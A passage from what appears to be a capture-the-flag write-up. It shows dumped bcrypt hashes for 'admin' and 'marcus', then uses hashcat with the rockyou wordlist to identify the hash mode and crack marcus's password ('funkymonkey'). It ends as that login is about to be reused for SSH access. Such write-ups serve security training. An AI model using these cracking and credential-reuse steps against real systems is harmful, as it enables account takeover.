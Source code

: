 We can now try to crack these hashes in our attack host by first using `hashcat`'s autodetect mode to find out the hash type:

```bash
$ cat hashes
admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
# using hashcat's autodetect mode
$ hashcat hashes /usr/share/wordlists/rockyou.txt --username
hashcat (v6.2.6) starting in autodetect mode

<SNIP>

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+========================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].

Started: Fri Jan 26 06:42:36 2024
Stopped: Fri Jan 26 06:42:38 2024
```

Our hashes start with `$2y$`, which resemble `bcrypt` format for OSs, so we will choose the mode `3200`:

```bash
$ hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt --username

<SNIP>
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => s

Session..........: hashcat
Status...........: Running
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: hashes
Time.Started.....: Fri Jan 26 06:46:23 2024 (7 mins, 57 secs)
Time.Estimated...: Tue Jan 30 09:23:44 2024 (4 days, 2 hours)
```

After about 8 minutes, it managed to crack one! Let's see for which user:

```bash
$ hashcat -m 3200 --username --show hashes
marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
```

We can now use these creds, `marcus:funkymonkey`, for logging into SSH:

